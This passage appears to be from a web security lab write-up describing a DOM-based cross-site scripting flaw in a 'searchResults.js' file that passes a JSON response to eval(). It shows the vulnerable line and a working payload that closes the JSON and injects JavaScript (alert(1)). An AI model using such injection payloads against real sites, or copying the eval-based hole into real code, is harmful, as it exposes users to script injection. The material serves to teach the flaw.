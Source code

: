 There is `searchResults.js`, which creates a new variable from the returned json
```javascript
eval('var searchResultsObj = ' + this.responseText);
```
In the json our search term is included
```json
{"results":[],"searchTerm":"bla"}
```
While `"` is escaped `\` is not.
So we can craft a payload, closing the json and write more javascript.
The comment ignores the remaining end of the json.
```
\"};alert(1)//
```
